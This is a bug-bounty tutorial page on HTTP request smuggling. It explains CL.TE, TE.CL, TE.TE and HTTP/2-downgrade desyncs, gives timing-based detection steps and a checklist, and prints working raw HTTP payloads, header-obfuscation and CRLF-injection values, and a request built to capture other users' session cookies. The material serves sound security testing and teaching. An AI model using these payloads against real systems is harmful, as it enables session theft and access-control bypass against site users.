

> Source: https://bugbounty.info/Attack-Surface/Web/Infrastructure/Request-Smuggling

# HTTP Request Smuggling

Request smuggling exploits a disagreement between a front-end proxy (CDN, load balancer, reverse proxy) and a back-end server about where one HTTP request ends and the next begins. The front-end forwards one thing; the back-end processes something different. The result: you can "poison" the TCP stream so that your extra bytes get prepended to a legitimate user's next request. James Kettle's original research and PortSwigger Labs are the canonical resource  -  this page covers what you need to actually find and exploit these.

## The Core Disagreement

HTTP/1.1 has two ways to specify body length: `Content-Length` (CL) and `Transfer-Encoding: chunked` (TE). When both headers are present, the RFC says TE wins  -  but implementations disagree. That disagreement is the bug.



## CL.TE Desync

Front-end uses Content-Length. Back-end uses Transfer-Encoding.

```http
POST / HTTP/1.1
Host: target.com
Content-Length: 13
Transfer-Encoding: chunked
 
0
 
SMUGGLED
```

Front-end reads 13 bytes total (the `0\r\n\r\nSMUGGLED`), forwards it as one request. Back-end parses as chunked: reads chunk size `0` (end of body), stops. `SMUGGLED` remains in the buffer  -  the back-end now prepends it to the next request it processes.

## TE.CL Desync

Front-end uses Transfer-Encoding. Back-end uses Content-Length.

```http
POST / HTTP/1.1
Host: target.com
Content-Length: 3
Transfer-Encoding: chunked
 
8
SMUGGLED
0
 
```

Front-end reads chunked: gets `8` bytes (`SMUGGLED`), then chunk size `0` (done). Back-end reads by Content-Length: reads 3 bytes (`8\r\n`), stops. The rest (`SMUGGLED\r\n0\r\n\r\n`) sits in the buffer.

## TE.TE Obfuscation

Both front-end and back-end support TE, but you can get one to ignore it by obfuscating the header:

```http
Transfer-Encoding: xchunked
Transfer-Encoding: chunked
Transfer-Encoding: chunked, dechunked
Transfer-Encoding: x
Transfer-Encoding : chunked          <- header name with trailing space
X: X[\n]Transfer-Encoding: chunked  <- header injection
```

If the front-end processes the obfuscated TE and the back-end ignores it (falls back to CL), you've created a desync.

## HTTP/2 Downgrade

Modern infrastructures that accept HTTP/2 from clients and downgrade to HTTP/1.1 for backend communication introduce new desync opportunities. HTTP/2 uses binary frames with explicit length  -  no CL/TE ambiguity. But when the front-end translates to HTTP/1.1 for the backend, it must choose how to represent the body length. If you can inject `\r\n` sequences into HTTP/2 header values that the backend interprets as new headers:

```text
:method: POST
:path: /
content-length: 0
foo: bar\r\nTransfer-Encoding: chunked
```

Burp Suite's HTTP Request Smuggler extension handles most of this detection automatically.

## Detection Methodology

### Using HTTP Request Smuggler (Burp Extension)

1. Install "HTTP Request Smuggler" from BApp Store
2. Right-click any request -> Extensions -> HTTP Request Smuggler -> Smuggle probe
3. Let it run  -  it probes CL.TE, TE.CL, and TE.TE variants automatically
4. Look for timing differences and error responses

### Manual Timing-Based Detection

**CL.TE test:** If the back-end is waiting for more chunked data, the request will time out:

```http
POST / HTTP/1.1
Host: target.com
Transfer-Encoding: chunked
Content-Length: 4
 
1
A
X
```

If this takes ~10 seconds instead of responding immediately, the back-end is processing chunked and waiting for the terminating `0` chunk.

## Exploitation: Capturing Other Users' Requests

The most impactful primitive  -  prepend your attack request so that the next victim's request appends to your poisoned body. Their cookies/headers land in something you can read back:

```http
POST / HTTP/1.1
Host: target.com
Content-Length: 130
Transfer-Encoding: chunked
 
0
 
POST /capture HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 800
 
data=
```

The next user's request (say, `GET /dashboard` with their auth cookie) gets appended to `data=`  -  and if `/capture` stores or reflects that data, you read their session.

## Common Impact Chains

- Bypass front-end access controls (front-end enforces auth, back-end doesn't  -  smuggle directly to back-end)
- Cache poisoning via smuggled cache-contaminating request
- XSS delivery via poisoned cache
- Credential capture from other users' requests
- Internal path exposure (smuggle to back-end endpoints the proxy doesn't expose)

## Checklist

- Install HTTP Request Smuggler Burp extension
- Run smuggle probe on main endpoints, especially POST endpoints
- Manual timing test: CL.TE (timeout waiting for chunks) and TE.CL (immediate)
- Test TE obfuscation variants if basic tests are negative
- Check for HTTP/2 -> HTTP/1.1 downgrade (check ALPN, Alt-Svc headers)
- If desync found: determine what you can read back (response reflection, stored data)
- Test access control bypass via smuggled request to restricted paths

## See Also

- [Cache Poisoning](../../../Attack-Surface/Web/Infrastructure/Cache-Poisoning)
- [Reflected XSS](../../../Attack-Surface/Web/Injection/XSS/Reflected-XSS)
- PortSwigger Research: [HTTP Desync Attacks](https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn)
